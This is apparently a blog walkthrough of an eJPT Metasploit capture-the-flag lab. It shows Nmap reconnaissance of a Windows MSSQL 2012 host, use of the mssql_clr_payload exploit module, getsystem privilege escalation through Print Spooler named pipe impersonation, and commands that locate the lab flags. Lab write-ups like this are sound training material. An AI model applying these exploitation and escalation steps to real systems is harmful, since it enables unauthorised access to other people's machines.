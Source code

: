 ```yaml
---
title: "eJPT - Host & Network Penetration Testing: The Metasploit Framework CTF1"
date: 2025-06-01 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]
image:
    path: /assets/img/1.gif
    alt: image
---
```


### Lab Environment

In this lab environment, you will have GUI access to a Kali machine. The target machine will be accessible at **target.ine.local**.

**Objective:** Use Metasploit and manual investigation techniques to capture the following flags:

- **Flag 1:** Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.
- **Flag 2:** Locate the second flag within the Windows configuration folder.
- **Flag 3:** The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.
- **Flag 4:** Investigate the Administrator directory to find the fourth flag.

# Tools

The best tools for this lab are:

- Nmap
- Metasploit Framework
- mssql

---

# Note

In this lab, the flag will follow the format: FLAG1_MD5Hash. For example, FLAG1_0f4d0db3668dd58cabb9eb409657eaa8. You need to submit only the MD5 hash string, excluding the underscore (_). For instance: 0f4d0db3668dd58cabb9eb409657eaa8.

### Question 1

---

Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.

Nmap results:

```bash
db_nmap -sV -sC target.ine.local
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-05 19:52 IST
[*] Nmap: Nmap scan report for target.ine.local (10.5.23.244)
[*] Nmap: Host is up (0.0028s latency).
[*] Nmap: Not shown: 991 closed tcp ports (reset)
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 1433/tcp  open  ms-sql-s           Microsoft SQL Server 2012 11.00.6020.00; SP3
[*] Nmap: | ms-sql-ntlm-info:
[*] Nmap: |   10.5.23.244\MSSQLSERVER:
[*] Nmap: |     Target_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     NetBIOS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     NetBIOS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     DNS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     DNS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |_    Product_Version: 6.3.9600
[*] Nmap: |_ssl-date: 2025-04-05T14:23:58+00:00; 0s from scanner time.
[*] Nmap: | ms-sql-info:
[*] Nmap: |   10.5.23.244\MSSQLSERVER:
[*] Nmap: |     Instance name: MSSQLSERVER
[*] Nmap: |     Version:
[*] Nmap: |       name: Microsoft SQL Server 2012 SP3
[*] Nmap: |       number: 11.00.6020.00
[*] Nmap: |       Product: Microsoft SQL Server 2012
[*] Nmap: |       Service pack level: SP3
[*] Nmap: |       Post-SP patches applied: false
[*] Nmap: |     TCP port: 1433
[*] Nmap: |_    Clustered: false
[*] Nmap: | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
[*] Nmap: | Not valid before: 2025-04-05T14:15:15
[*] Nmap: |_Not valid after:  2055-04-05T14:15:15
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: | ssl-cert: Subject: commonName=WIN-5BQ22OKH4SO
[*] Nmap: | Not valid before: 2025-01-08T07:08:38
[*] Nmap: |_Not valid after:  2025-07-10T07:08:38
[*] Nmap: | rdp-ntlm-info:
[*] Nmap: |   Target_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   NetBIOS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   NetBIOS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   DNS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   DNS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   Product_Version: 6.3.9600
[*] Nmap: |_  System_Time: 2025-04-05T14:23:51+00:00
[*] Nmap: |_ssl-date: 2025-04-05T14:23:58+00:00; 0s from scanner time.
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: Host script results:
[*] Nmap: | smb-security-mode:
[*] Nmap: |   authentication_level: user
[*] Nmap: |   challenge_response: supported
[*] Nmap: |_  message_signing: disabled (dangerous, but default)
[*] Nmap: | smb2-time:
[*] Nmap: |   date: 2025-04-05T14:23:54
[*] Nmap: |_  start_date: 2025-04-05T14:15:13
[*] Nmap: | smb2-security-mode:
[*] Nmap: |   3:0:2:
[*] Nmap: |_    Message signing enabled but not required
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 74.54 seconds
```

start the MSSQL and based on version we found i search then found these

```bash
search type:exploit name:MSSQL 2012
use exploit/windows/mssql/mssql_clr_payload
```

Changed the payload from x86 to x64 and run and gained access on target and you should find the flag1 sitting there, also can be found the flag4 on root directory (I guess if not you need to have elevated  permission to do so). 

```bash
 Directory of C:\Users\Administrator\Desktop

04/05/2025  02:16 PM    <DIR>          .
04/05/2025  02:16 PM    <DIR>          ..
04/05/2025  02:16 PM                34 flag4.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,739,594,752 bytes free

C:\Users\Administrator\Desktop>type flag4.txt
type flag4.txt
6d9e3ea9d172404f95c932****
```

---

### Question 2

---

Locate the second flag within the Windows configuration folder.

For this to work we need the privileged user access which we don’t have it. because the windows configureation file location is `C:\Windows\System32\config` so i got back to meterpreter and look around what are the prives we have and we do have these 

C:\Windows\System32\config 

```bash
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```

and we get to privilied use by using 

`getsystem`

This command tries to **elevate Meterpreter to SYSTEM** (the highest privilege level in Windows).

You successfully got SYSTEM:

```
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

- **Technique 5** is a known method using the **Print Spooler** service to impersonate SYSTEM via **named pipe impersonation**.
- This is possible **because you had SeImpersonatePrivilege**.

with this we gained the privilieged access and found the flag2 from the location 

```bash
C:\Windows\System32\config>type flag2.txt
type flag2.txt
24d1f54d707945009ddda8*******
```

---

### Question 3:

---

The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.

For this we need to search for flag and this requires just the search command which is

```bash
C:\Windows\system32>dir /a /s *flag*
dir /a /s *flag*
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\Windows\system32\drivers\etc

04/05/2025  02:16 PM                34 EscaltePrivilageToGetThisFlag.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)   3,739,594,752 bytes free

```

```bash
C:\Windows\System32\drivers\etc>type EscaltePrivilageToGetThisFlag.txt
type EscaltePrivilageToGetThisFlag.txt
84a36ae220e448538567a1aa4******
```

That’s our flag3

---

### Question4:

---

Investigate the Administrator directory to find the fourth flag.

Just going to the Administrator directory and under Desktop the flag is found!

```bash
Directory of C:\Users\Administrator\Desktop

04/05/2025  02:16 PM    <DIR>          .
04/05/2025  02:16 PM    <DIR>          ..
04/05/2025  02:16 PM                34 flag4.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,739,594,752 bytes free

C:\Users\Administrator\Desktop>type flag4.txt
type flag4.txt
6d9e3ea9d172404f95c932f8******

```